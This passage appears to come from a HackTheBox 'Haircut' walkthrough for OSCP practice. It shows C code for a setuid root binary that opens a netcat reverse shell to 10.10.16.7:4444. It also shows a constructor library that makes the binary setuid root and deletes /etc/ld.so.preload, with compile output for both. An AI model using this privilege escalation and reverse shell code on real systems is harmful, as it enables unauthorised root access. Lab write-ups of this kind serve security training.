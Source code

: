 ```c
#include <stdio.h>
int main(void) {
        setuid(0);
        setgid(0);
        system("nc -e /bin/bash 10.10.16.7 4444");
}
```

Now, compile this script:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/haircut]
└─$ gcc rootshell.c -o rootshell   
rootshell.c: In function ‘main’:
rootshell.c:3:9: warning: implicit declaration of function ‘setuid’ 
[-Wimplicit-function-declaration]
    3 |         setuid(0);
      |         ^~~~~~
rootshell.c:4:9: warning: implicit declaration of function ‘setgid’ 
[-Wimplicit-function-declaration]
    4 |         setgid(0);
      |         ^~~~~~
rootshell.c:5:9: warning: implicit declaration of function ‘system’ 
[-Wimplicit-function-declaration]
    5 |         system("nc -e /bin/bash 10.10.16.7 4444");
      |         ^~~~~~
```

You can ignore the warnings. Next, I create libhax.c (this is missing on the machine):

```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```

I compile that script too:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/haircut]
└─$ gcc -fPIC -shared -ldl -o libhax.so libhax.c 
libhax.c: In function ‘dropshell’:
libhax.c:7:5: warning: implicit declaration of function ‘chmod’ 
[-Wimplicit-function-declaration]
    7 |     chmod("/tmp/rootshell", 04755);
      |     ^~~~~
```
